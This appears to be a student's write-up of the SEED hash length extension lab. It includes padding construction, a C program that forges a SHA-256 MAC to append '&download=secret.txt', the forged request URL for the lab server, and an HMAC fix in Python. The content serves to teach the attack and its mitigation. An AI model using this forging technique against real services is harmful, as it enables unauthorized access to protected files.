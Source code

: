 # Hash Length Extension

## Task 1: Send Request to List Files

```shell
$ echo -n "123456:myname=rikka&uid=1001&lstcmd=1" | sha256sum 87d362541622ea812e984a6068b2bafcfa19acc468989fdc29e3044cec33f56c  -
```

使用浏览器打开

```
http://www.seedlab-hashlen.com/?myname=rikka&uid=1001&lstcmd=1
&mac=87d362541622ea812e984a6068b2bafcfa19acc468989fdc29e3044cec33f56c
```

<img src="Hash Length Extension.assets/image-20220219002325044.png" alt="image-20220219002325044" style="zoom:67%;" />



```shell
$ echo -n "123456:myname=rikka&uid=1001&lstcmd=1&download=secret.txt" | sha256sum 1f2aa7976c6a0590734c06a1793c2143072bf7e423e44f64345bae7239b32e2f  -

```

```
http://www.seedlab-hashlen.com/?myname=rikka&uid=1001&lstcmd=1&download=secret.txt
&mac=1f2aa7976c6a0590734c06a1793c2143072bf7e423e44f64345bae7239b32e2f
```

![image-20220219005436090](Hash Length Extension.assets/image-20220219005436090.png)

## Task 2: Create Padding

```
"123456:myname=rikka&uid=1001&lstcmd=1"
"\x80"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x01\x28"

```

```
123456:myname=rikka&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%28
```



## Task 3: The Length Extension Attack

```shell
$ echo -n "123456:myname=rikka&uid=1001&lstcmd=1" | sha256sum 87d362541622ea812e984a6068b2bafcfa19acc468989fdc29e3044cec33f56c  -
```



```c
/* length_ext.c */
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>
int main(int argc, const char *argv[])
{
	int i;
	unsigned char buffer[SHA256_DIGEST_LENGTH];
	SHA256_CTX c;
	SHA256_Init(&c);
	for (i = 0; i < 64; i++)
		SHA256_Update(&c, "*", 1);
// MAC of the original message M (padded)
	c.h[0] = htole32(0x87d36254);
	c.h[1] = htole32(0x1622ea81);
	c.h[2] = htole32(0x2e984a60);
	c.h[3] = htole32(0x68b2bafc);
	c.h[4] = htole32(0xfa19acc4);
	c.h[5] = htole32(0x68989fdc);
	c.h[6] = htole32(0x29e3044c);
	c.h[7] = htole32(0xec33f56c);
// Append additional message
	SHA256_Update(&c, "&download=secret.txt", 20);
	SHA256_Final(buffer, &c);
	for (i = 0; i < 32; i++) {
		printf("%02x", buffer[i]);
	}
	printf("\n");
	return 0;
}
```

```shell
$ gcc length_ext.c -o length_ext -lcrypto
$ ./length_ext
ab3e51572ac54bad12e8c47d5ef57e3604752e70eb60bad4e28c94e01fc30a01

```

```
http://www.seedlab-hashlen.com/?myname=rikka&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%28&download=secret.txt&mac=ab3e51572ac54bad12e8c47d5ef57e3604752e70eb60bad4e28c94e01fc30a01

```

![image-20220219012057933](Hash Length Extension.assets/image-20220219012057933.png)

## Task 4: Attack Mitigation using HMAC

`my_hmac.py`:

```python
#!/bin/env python3
import hmac
import hashlib
key='123456'
message='myname=rikka&uid=1001&lstcmd=1'
mac = hmac.new(bytearray(key.encode('utf-8')),msg=message.encode('utf-8', 'surrogateescape'),digestmod=hashlib.sha256).hexdigest()
print(mac)
```

```
http://www.seedlab-hashlen.com/?myname=rikka&uid=1001&lstcmd=1&mac=d178eb2f8c958035d313c4303528b50876a25ae704ac62dda11b468bcad4efe3
```



![image-20220219111018031](Hash Length Extension.assets/image-20220219111018031.png)

